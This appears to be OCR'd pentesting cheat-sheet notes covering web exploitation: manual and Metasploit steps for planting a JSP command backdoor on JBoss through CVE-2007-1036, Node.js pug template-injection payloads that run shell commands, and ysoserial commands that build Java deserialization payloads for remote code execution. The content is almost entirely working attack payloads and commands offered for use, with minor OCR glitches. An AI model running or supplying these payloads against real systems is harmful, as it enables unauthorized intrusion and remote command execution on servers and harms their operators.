 CVE-2007-1036

<https://www.exploit-db.com/exploits/16318>

msfconsole:

use exploit/multi/http/jboss_maindeployer

manually exploit:

create a backdoor.jsp with the content of <https://github.com/fuzzdb-project/fuzzdb/blob/master/web-backdoors/jsp/cmd.jsp>",

create a backdoor.war

create a python server to serve the war on jboss.system:MainDeployer go to redeploy and enter the url for the backdoor and press invoke

go to <http://VUNERABLE.APP/backdoor/backdoor.jsp> and have RCE

### SQLi

<https://portswigger.net/web-security/sql-injection/cheat-sheet>

### SSTI

#### node.js

pug template engine:

```text
    p #{7*7}
    p #{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad('child_process').exec('ls -la')}()}
    p #{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad('child_process').exec('id', (error, stdout, stderr) => { global.out=String(stdout) }) }() }
    p #{out}
```

### Serialization

#### java

Usualy java serialized objects start with **ac ed 00 05** or in base64 encoding **rO0aB**

<https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet>

ysoserial:

<https://github.com/frohoff/ysoserial>

```bash
java -jar ysoserial-all.jar [payload] '[command]'

java -cp ysoserial-all.jar ysoserial.exploit.JSF

Create serialized object to do RCE

java -jar ysoserial-all.jar CommonsCollections1 'whoami' > test.bin

Create serialized object to do DNS query:

java -jar ysoserial-all.jar URLDNS <http://testjbjhebdkjs.com> > test.bin

getting a list with all ysoserial payloads

java -jar ysoserial-all.jar > yso 2>&1

cat yso | tr -d ' ' | cut -d '@'' -f 1 > payloads.txt

sed -i -e '1,7d' payloads.txt
```